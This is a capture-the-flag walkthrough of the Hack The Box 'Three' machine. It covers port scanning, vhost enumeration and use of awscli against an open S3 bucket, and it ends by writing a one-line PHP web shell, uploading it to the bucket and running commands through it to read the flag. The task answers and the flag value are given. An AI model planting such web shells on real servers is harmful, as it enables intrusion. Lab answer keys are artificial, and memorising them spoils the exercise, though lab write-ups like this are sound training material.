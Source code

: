Connect the VPN, spawn the VM.<br>
10.129.207.118


### TASK 1

How many TCP ports are open?



```
# nmap -sC -sS -sV 10.129.207.118 -n -Pn -p-
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-06 04:13 EDT
Stats: 0:01:39 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 21.47% done; ETC: 04:20 (0:05:58 remaining)
Stats: 0:08:36 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 59.38% done; ETC: 04:27 (0:05:53 remaining)
Nmap scan report for 10.129.171.132
Host is up (0.23s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: The Toppers
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 997.74 seconds
```

Answer: 2

### TASK 2

What is the domain of the email address provided in the "Contact" section of the website?

![[hackthebox/HTB-Three/Image1.png]]

Answer: thetoppers.htb

### TASK 3

In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?

Answer: /etc/hosts

### TASK 4

Which sub-domain is discovered during further enumeration?

Edit the hosts files to include the domain
```
# cat /etc/hosts             
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters
10.129.207.118  thetoppers.htb
```

```
# gobuster --help                                                                                  
Usage:
  gobuster [command]

Available Commands:
  dir         Uses directory/file enumeration mode
  dns         Uses DNS subdomain enumeration mode
  fuzz        Uses fuzzing mode
  help        Help about any command
  s3          Uses aws bucket enumeration mode
  version     shows the current version
  vhost       Uses VHOST enumeration mode

Flags:
      --delay duration    Time each thread waits between requests (e.g. 1500ms)
  -h, --help              help for gobuster
      --no-error          Don't display errors
  -z, --no-progress       Don't display progress
  -o, --output string     Output file to write results to (defaults to stdout)
  -p, --pattern string    File containing replacement patterns
  -q, --quiet             Don't print the banner and other noise
  -t, --threads int       Number of concurrent threads (default 10)
  -v, --verbose           Verbose output (errors)
  -w, --wordlist string   Path to the wordlist

Use "gobuster [command] --help" for more information about a command.
```

```
# gobuster vhost -w /usr/share/wordlists/amass/subdomains-top1mil-5000.txt -u http://thetoppers.htb
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://thetoppers.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/wordlists/amass/subdomains-top1mil-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/10/06 15:15:37 Starting gobuster in VHOST enumeration mode
===============================================================
Found: s3.thetoppers.htb (Status: 404) [Size: 21]
Found: gc._msdcs.thetoppers.htb (Status: 400) [Size: 306]
Found: m..thetoppers.htb (Status: 400) [Size: 306]       
Found: ns2.cl.bellsouth.net..thetoppers.htb (Status: 400) [Size: 306]
Found: ns1.viviotech.net..thetoppers.htb (Status: 400) [Size: 306]   
Found: ns2.viviotech.net..thetoppers.htb (Status: 400) [Size: 306]   
Found: ns3.cl.bellsouth.net..thetoppers.htb (Status: 400) [Size: 306]
Found: ferrari.fortwayne.com..thetoppers.htb (Status: 400) [Size: 306]
Found: jordan.fortwayne.com..thetoppers.htb (Status: 400) [Size: 306] 
Found: quatro.oweb.com..thetoppers.htb (Status: 400) [Size: 306]      
===============================================================
2022/10/06 15:17:44 Finished
===============================================================
```

Answer: s3.thetoppers.htb

###  TASK 5

Which service is running on the discovered sub-domain?

![[hackthebox/HTB-Three/Image2.png]]

Answer: amazon s3


### TASK 6

Which command line utility can be used to interact with the service running on the discovered sub-domain?

Answer: awscli

### TASK 7

Which command is used to set up the AWS CLI installation?

https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html

```
# curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip"
unzip awscliv2.zip
sudo ./aws/install
```

https://docs.aws.amazon.com/cli/latest/userguide/getting-started-quickstart.html

```
# aws configure 
AWS Access Key ID [None]: adsf
AWS Secret Access Key [None]: adsf
Default region name [None]: asdf
Default output format [None]: asdf
```

Answer: aws configure

### TASK 8

What is the command used by the above utility to list all of the S3 buckets?

Edit the hosts files as per task 4 to include s3.thetoppers.htb for the same IP address as the target machine.

https://docs.aws.amazon.com/cli/latest/reference/s3/ls.html

```
# aws --endpoint http://s3.thetoppers.htb s3 ls
2022-10-06 15:01:35 thetoppers.htb
```

Answer: aws s3 ls

### TASK 9

This server is configured to run files written in what web scripting language?

```
# aws --endpoint http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2022-10-06 15:01:35          0 .htaccess
2022-10-06 15:01:36      11952 index.php
```

Answer: php

### SUBMIT FLAG

Submit root flag

Create a shell.php with the following contents:
```
<?php
  system($_GET['cmd']);
?>
```

Upload it to the s3 bucket

```
# aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb   
upload: ./shell.php to s3://thetoppers.htb/shell.php             
```

Navigate to ```thetoppers.htb/shell.php?=whoami``` and verify www-data is running the web application.

use cat and ls to navigate the file system looking for the flag.

![[Image3.png]]

Answer: a980d99281a28d638ac68b9bf9453c2b